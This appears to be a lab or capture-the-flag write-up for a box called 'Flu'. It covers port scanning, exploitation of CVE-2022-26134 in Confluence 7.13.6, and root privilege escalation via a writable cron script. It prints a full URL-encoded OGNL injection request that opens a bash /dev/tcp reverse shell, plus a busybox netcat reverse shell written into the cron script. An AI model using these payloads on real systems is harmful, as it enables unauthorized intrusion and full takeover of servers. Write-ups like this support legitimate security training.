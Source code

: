 # Flu - Writeup

## Initial Enumeration

### Port Scanning
A basic port scan revealed three open ports:
```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH (Unknown version)
8090/tcp open  http          Atlassian Confluence 7.13.6
8091/tcp open  http          Unknown web service
```

### Web Enumeration
Upon accessing the web server on port 8090, I identified it as running:
```
Atlassian Confluence 7.13.6
```

Research revealed this version is vulnerable to a critical remote code execution vulnerability (CVE-2022-26134) that allows unauthenticated attackers to execute arbitrary code on affected instances.

## Gaining Initial Access

### Exploiting CVE-2022-26134
After researching the vulnerability, I found it was related to an OGNL injection vulnerability in Confluence's "nashorn" script engine, allowing attackers to execute arbitrary code via URL payload.

I crafted a malicious payload to establish a reverse shell:
```
GET /%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.157/3001%200%3E%261%27%29.start%28%29%22%29%7D/ HTTP/1.1
Host: 192.168.110.41:8090
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Before sending this payload, I set up a netcat listener on my attack machine:
```bash
nc -lvnp 3001
```

After sending the request, I successfully received a reverse shell connection.

## Privilege Escalation

### System Enumeration
After gaining initial access, I began enumerating the system for potential privilege escalation vectors:

```bash
find / -type f -perm -4000 2>/dev/null
find / -perm -2 -type f -not -path "*/proc/*" 2>/dev/null
```

I discovered an interesting script with writable permissions:
```
/opt/log-backup.sh
```

### Process Monitoring
To understand how this script was being executed, I used `pspy` to monitor processes:
```bash
./pspy64 -pf -i 1000
```

This revealed that the script was being executed by a cron job running as root:
```
2023/06/14 09:15:01 CMD: UID=0    PID=3842   | /bin/bash /opt/log-backup.sh
```

### Exploiting Scheduled Tasks
Since I had write access to the script and it was being executed as root, I modified it to create a reverse shell:

```bash
cat > /opt/log-backup.sh << EOF
#!/bin/bash
busybox nc 192.168.45.225 3002 -e /bin/sh
EOF
```

I made sure the script was executable:
```bash
chmod +x /opt/log-backup.sh
```

I set up another netcat listener on my attack machine:
```bash
nc -lvnp 3002
```

After waiting approximately one minute for the cron job to execute, I received a reverse shell as the root user:
```
uid=0(root) gid=0(root) groups=0(root)
```

This confirmed successful privilege escalation to root, completing the challenge.